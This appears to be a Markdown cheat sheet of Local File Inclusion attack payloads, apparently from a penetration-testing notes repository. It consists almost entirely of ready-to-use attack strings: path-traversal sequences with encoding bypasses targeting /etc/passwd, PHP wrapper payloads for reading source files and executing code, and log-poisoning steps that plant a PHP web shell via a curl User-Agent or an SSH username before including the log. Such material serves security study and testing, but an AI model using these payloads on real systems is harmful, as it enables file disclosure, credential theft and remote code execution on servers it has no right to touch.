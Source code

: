 ### Local File Inclusion (LFI)

#### Basic LFI Techniques

```
# Direct traversal
../../../etc/passwd
....//....//....//etc/passwd
..;/..;/..;/etc/passwd

# Encoding bypasses
..%2f..%2f..%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

# Double encoding
..%25%32%66..%25%32%66..%25%32%66etc%25%32%66passwd

# UTF-8 encoding
..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
```

#### PHP Wrapper Exploitation

```
# Base64 filter for source code reading
php://filter/convert.base64-encode/resource=index.php
php://filter/read=convert.base64-encode/resource=config.php
php://filter/convert.iconv.utf-8.utf-16/resource=index.php

# Compression wrappers
compress.zlib://file.txt
compress.bzip2://file.txt
zip://archive.zip#file.txt
phar://archive.phar/file.txt

# Data wrapper for code execution
data://text/plain,<?php system($_GET['cmd']); ?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+

# Input wrapper (requires POST)
php://input
POST: <?php system('whoami'); ?>

# Expect wrapper (if enabled)
expect://id
expect://ls
```

#### LFI to RCE via Log Poisoning

```bash
# Apache/Nginx access log
1. Send request with PHP code in User-Agent:
   curl -A "<?php system(\$_GET['cmd']); ?>" http://target.com/
2. Include log file:
   /var/log/apache2/access.log
   /var/log/nginx/access.log

# SSH log poisoning
1. SSH with PHP code as username:
   ssh '<?php system($_GET["cmd"]); ?>'@target.com
2. Include log:
   /var/log/auth.log
   /var/log/sshd.log
```